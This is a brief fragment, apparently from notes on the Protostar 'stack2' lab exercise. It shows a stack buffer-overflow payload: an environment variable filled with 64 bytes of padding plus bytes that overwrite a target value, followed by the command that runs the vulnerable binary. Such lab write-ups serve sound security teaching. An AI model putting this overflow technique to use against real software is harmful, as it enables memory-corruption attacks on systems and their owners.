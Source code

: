 **Stack2**

```diff
$ export GREENIE=$(python -c "print 'a'*64 + '\x0a\x0d\x0a\x0d'")
$ /opt/protostar/bin/stack2
```